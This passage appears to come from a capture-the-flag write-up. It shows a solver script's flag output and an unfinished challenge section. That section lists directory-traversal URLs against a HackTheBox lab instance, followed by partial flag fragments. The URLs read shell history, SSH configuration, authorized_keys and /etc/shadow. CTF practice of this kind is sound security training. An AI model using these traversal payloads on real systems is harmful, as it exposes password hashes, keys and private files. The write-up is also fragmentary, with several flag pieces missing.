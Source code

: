and we get the flag:
```bash
bread@sticks:~# python solve.py
TMHC{5yjzx3d265gb7j}
```

    `TMHC{5yjzx3d265gb7j}`

## Other - Category: incomplete


```
view-source:http://docker.hackthebox.eu:30361/?page=../../../../home/web/.bash_history
view-source:http://docker.hackthebox.eu:30361/?page=../../../../home/web/.histdb/zsh-history.db
view-source:http://docker.hackthebox.eu:30361/?page=../../../../home/web/whatcanisudo
view-source:http://docker.hackthebox.eu:30361/?page=../../../../opt/checkflag9of10.exe
view-source:http://docker.hackthebox.eu:30361/?page=../../../../home/web/.zsh_history
view-source:http://docker.hackthebox.eu:30361/?page=../../../../etc/ssh/sshd_config
view-source:http://docker.hackthebox.eu:30361/?page=../../../../../home/web/.ssh/authorized_keys
view-source:http://docker.hackthebox.eu:30361/?page=../../../../../etc/shadow
view-source:http://docker.hackthebox.eu:30361/?page=../../../../../home/flag3of10/.ssh/authorized_keys


flag(1/10):TMHC{y0u_
flag(2/10):0nly_g3t
flag(3/10):#1flag
flag(4/10):
flag(5/10):7iME_:(_
flag(6/10):Bu7_Th3r3_
flag(7/10):
flag(8/10):_A_l0t_
flag(9/10): <? errrrh re>
flag(10/10):
```

